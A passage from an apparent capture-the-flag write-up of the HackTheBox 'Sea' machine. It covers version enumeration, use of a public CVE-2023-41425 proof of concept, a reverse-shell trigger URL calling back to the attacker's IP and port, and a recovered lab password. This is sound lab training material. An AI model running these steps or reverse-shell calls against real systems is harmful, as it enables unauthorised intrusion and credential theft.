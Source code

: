 found /themes/bike/version and this was enough for me, but will leave it running just in case we find something else

![sea-1](/images/sea/Pasted image 20241221132218.png)

now we know version, but for which plugin....

couldn't find anything in the remaining subdirectories, I took hint that it is README.md

![sea-2](/images/sea/Pasted image 20241221141601.png)

now we search for vulnerabilities
![sea-3](/images/sea/Pasted image 20241221141639.png)

looks like there is an RCE, will read carefully and then try to obtain a shell

## 3: Obtaining a User Flag

Will use this code: https://github.com/prodigiousMind/CVE-2023-41425?tab=readme-ov-file

![sea-4](/images/sea/Pasted image 20241221145645.png)

Based on the Proof of Concept, a shell should have opened...

Tried it again:
![sea-5](/images/sea/Pasted image 20241223213337.png)

but nothing happened eventhough I had this:
![sea-6](/images/sea/Pasted image 20241223213400.png)

so I read the code and found this block:
![sea-7](/images/sea/Pasted image 20241223213418.png)

which means that the revshell was at this url:
http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.57&lport=12345
and so I got a shell

![sea-8](/images/sea/Pasted image 20241223213457.png)

![sea-9](/images/sea/Pasted image 20241223214031.png)

found this in /var/www/sea/data:

![sea-10](/images/sea/Pasted image 20241223222600.png)


![sea-11](/images/sea/Pasted image 20241223224056.png)

this is the password I got:

mychemicalromance

![sea-12](/images/sea/Pasted image 20241223224156.png)
